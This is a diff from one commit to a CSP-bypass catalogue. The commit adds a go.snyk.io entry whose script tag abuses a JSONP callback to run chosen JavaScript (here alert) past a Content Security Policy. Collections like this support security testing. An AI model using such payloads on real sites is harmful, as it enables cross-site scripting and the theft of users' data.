

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added go.snyk.io

```diff
--- a/data.tsv
+++ b/data.tsv
+row 58: go.snyk.io | <script src="https://go.snyk.io/index.php/form/getForm?munchkinId=677-THP-415&form=1461&callback=alert"></script>
```
